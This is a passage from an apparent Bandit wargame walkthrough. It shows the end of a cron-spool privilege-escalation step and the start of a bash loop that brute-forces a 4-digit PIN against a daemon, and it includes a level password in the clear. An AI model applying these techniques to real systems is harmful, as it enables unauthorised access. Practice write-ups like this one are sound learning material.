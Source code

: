 We then `chmod +x` the file to make it executable:
```bash
chmod +x $G; cp $G /var/spool/bandit24/foo/
```

And copy the file script to the folder:
```bash
cp $G /var/spool/bandit24/foo/
```

Now, the `while` loop is checking for if the output file doesn't exist. So it's waiting till it does exist.

```bash
while [ ! -e $F ];
  do sleep 0.1;
done
```

Once it exists, we read it:
```bash
cat $F
```

Cool!

# Level 24 -> 25

> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

This requires some bash scripting, so we need to make a loop to generate every number `0000` to `9999`.

```bash
bandit24@bandit:~$ for i in {00..11}; do echo $i; done
00
01
02
03
04
05
06
07
08
09
10
11
```

We can do it like this, where `{}` specifies our number range, and we separate the first and last number by `..`.

We can do the same with `0000..9999` and then `echo "PASSWORD $i"`.

```bash
bandit24@bandit:~$ for i in {00..11}; do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"; done
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 00
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 01
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 02
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 03
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 04
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 05
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 06
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 07
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 08
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 09
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 10
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 11
```